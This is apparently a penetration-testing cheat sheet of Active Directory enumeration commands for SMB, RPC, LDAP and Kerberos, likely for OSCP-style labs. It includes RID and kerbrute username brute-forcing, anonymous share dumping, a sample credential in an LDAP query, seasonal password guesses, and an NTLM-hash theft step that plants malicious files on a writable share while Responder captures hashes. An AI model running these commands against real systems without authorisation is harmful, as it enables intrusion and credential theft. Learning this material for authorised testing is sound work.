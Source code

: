 
**UDP --> SNMP (Port 161)**

### SMB (Port 445)

Scans:
```bash
nmblookup -A <IP>
nbtscan <IP>
enum4linux -a <IP>
enum4linux -a -u <user> -p <pass> <IP>
```

Determine version:
- [Script](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh)

RID bruteforce usernames:
```bash
impacket-lookupsid guest@<domain>
nxc smb <IP> -u '' -p '' --rid-brute
nxc smb <IP> -u '' -p '' --users
```

Nmap enumeration:
```bash
nmap --script smb* -p445 <IP>
nmap --script smb-vuln* -p445 <IP>
```

List shares:
```bash
smbclient --no-pass -L //<IP>
smbmap -H <IP> [-P <PORT>]
nxc smb <IP> -u '' -p '' --shares
```
>[!info]
>- With credentials: `smbclient -L \\\\<SERVER-IP> -U <USERNAME>%<PASSWORD>`
>- With hash: `smbclient -L \\\\<SERVER-IP> -U <USERNAME>%<HASH>`
>- **TRY DIFFERENT TOOLS!!!**
>- **recurse;ls**

Connect to shares:
```bash
smbclient --no-pass //<IP>/<Folder>

# Download everything
recurse on
prompt off
mget *
```

Try to connect using guest account:
```bash
nxc smb 192.168.210.159 -u "guest" -p "" --shares
```

Authenticate to share using impacket: (without password)
```bash
impacket-smbclient <domain>/<user>@<IP> -no-pass -dc-ip <IP>
```

**Writable SMB share? Leak NTLM hash using .URI file & Responder!**
```bash
# Responder
sudo responder -I tun0 -A # Analyze mode

# Generate malicious files
python3 ntlm_theft.py -g all -s <Kali-IP> -f test

# Upload files to SMB share
```
>[!info]
>- [GitHub PoC](https://github.com/Greenwolf/ntlm_theft)
>- [Writeup1](https://medium.com/@Dpsypher/proving-grounds-practice-vault-158516460860)
>- [Writeup2](https://medium.com/@persecure/breach-vulnlab-f30761f08be6)


### RPC (Port 135)

Enumerate users:
```bash
rpcclient -N -U "" <IP>

enumdomusers
```
>[!info]
>**Try with & without credentials!**


### LDAP (Port 389)

Check for description fields with passwords or simply enumerate users
```bash
nmap -n -sV --script "ldap* and not brute" <IP>
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=hutch,DC=offsec"
ldapsearch -x -H ldap://<IP> -D 'GIIKER\dani.auguste' -w 'Password123!' -b "DC=giiker,DC=local"
```
>[!info] 
>**Try with & without credentials!**


### Kerberos (Port 88)

Use kerbrute to check for valid users
```bash
./kerbrute userenum -d <domain> usernames.txt --dc <IP>

# Wordlist:
./kerbrute userenum -d <domain> /opt/SecLists/Usernames/xato-net-10-million-usernames.txt --dc <IP>
```
>[!info]
>Use valid usernames as passwords on `nxc smb`

Common passwords may have something to do with the seasons: (year can vary)
```bash
Spring2023
Summer2023
Autumn2023
Fall2023
Winter2023
```
